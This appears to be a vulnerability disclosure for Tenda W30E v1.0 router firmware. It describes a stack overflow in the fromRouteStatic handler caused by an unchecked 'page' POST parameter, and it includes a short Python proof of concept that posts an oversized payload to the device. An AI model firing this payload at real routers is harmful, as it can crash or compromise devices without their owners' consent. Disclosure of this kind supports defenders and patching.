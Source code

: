 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability in the `fromRouteStatic` function. The `v6` variable receives the `page` parameter from a POST request and is used in statement `v1 = sprintf(s, "routing_static.asp?page=%s", v6);`, which caused the buffer overflow attack.

![image-20240409111025706](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409111025706.png)

The user-provided `page` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/fromRouteStatic"
payload = b'a'*1000
data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409110959426](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110959426.png)